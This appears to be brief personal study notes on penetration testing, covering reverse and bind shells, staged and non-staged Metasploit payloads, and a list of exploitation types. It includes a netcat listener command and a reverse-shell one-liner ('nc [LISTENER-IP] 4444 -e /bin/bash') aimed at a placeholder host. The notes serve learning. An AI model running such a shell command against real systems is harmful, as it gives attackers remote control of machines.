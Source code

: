 
#exploitation

## Contents :-

#### [[#4.04.01 - Shells & Payloads]]


---

## 4.04.01 - Shells & Payloads

### Shell Types

1. **Reverse Shell** - the target connects to us.
2. **Bind Shell** - we connect to the target.

- `nc -nvlp 4444`: create netcat listener on port 4444.
- `nc [LISTENER-IP] 4444 -e /bin/bash`: connect to listener.

### Payload Types

1. **Non-Staged**
	- sends exploit shellcode all at once.
	- larger in size.
	- may not work always.
	- *Example*: `windows/meterpreter_reverse_tcp`
2. **Staged**
	- sends payload in stages.
	- can be less stable.
	- *Example*: `windows/meterpreter/reverse_tcp`

---

## 4.04.02 - Exploitation Types

- Manual exploitation
- Exploiting with Metasploit
- Brute Force
- Credential stuffing and password spraying